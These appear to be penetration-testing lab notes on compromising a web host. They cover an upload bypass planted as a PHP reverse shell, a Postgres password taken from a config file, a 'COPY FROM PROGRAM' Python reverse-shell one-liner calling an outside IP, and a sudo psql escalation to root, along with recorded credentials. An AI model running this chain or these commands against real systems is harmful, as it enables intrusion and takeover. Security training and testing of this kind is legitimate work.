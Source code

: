 ### ++ Approach ++
#### Credentials
	* SKYLARK\kiosk:XEwUS^9R2Gwt8O914 (https://192.168.203.221/RDWeb)

#### Services
	##### 21 FTP
		- 

	##### 80 HTTP
		-

	##### 8090 HTTP
		Fuzzing we find a login panel at http://192.168.203.225:8090/backend/default/index.php with admin:admin credentials
		Here we find a upload funtionality which can be exploited

### ++ Vulnerabilities ++

#### Vuln 1: Input not sanitized in uploader function ++
	* In 8090/backend/default/index.php we can upload a php shell and bypass the file protection

#### Vuln 2: User postgres has misconfigured permissions ++
	* After moved laterally to postgres user, we abuse the sudo permissions of psql command

### ++ System Interaction ++
#### Foothold  
	* Use uploader to abuse the functionality and upload a php reverse shell (pentestmonkey shell) and get a foothold as www-data
	
![[Pasted image 20240219110526.png]]
![[Pasted image 20240219110637.png]]

#### Lateral Movement to postgres user
	* In /var/www/backend/default/config.php we find a PostgreSQL db connection command:
		pg_connect("host=localhost port=5432 dbname=webapp user=postgres password=EAZT5EMULA75F8MC");

	* We can connect to psql with the following command:
		psql -h localhost -p 5432 -d webapp -U postgres (Password EAZT5EMULA75F8MC)

	* We can get a shell as postgres user with the following commands (from **[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program)**):
		DROP TABLE IF EXISTS cmd_exec;
		CREATE TABLE cmd_exec(cmd_output text);
		COPY cmd_exec FROM PROGRAM 'python3 -c ''import os,pty,socket;s=socket.socket();s.connect(("192.168.45.165",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")''';

#### Privilege Escalation 
	* Postgres user can run psql as sudo, so lets connect to psql again and spawn a shell
		sudo /usr/bin/psql -h localhost -p 5432 -d webapp -U postgres (Password EAZT5EMULA75F8MC)

		(https://gtfobins.github.io/gtfobins/psql/#shell)
		\?
		!/bin/bash

	And we are root
	
#### Post-exploitation 
	* In /var/www/backend/default/uploads/user-guide-rdweb.pdf we found a file which reveals credentials for SKYLARK\kiosk:XEwUS^9R2Gwt8O914
	* By nmap scans we found this webapp is in https://192.168.203.221/RDWeb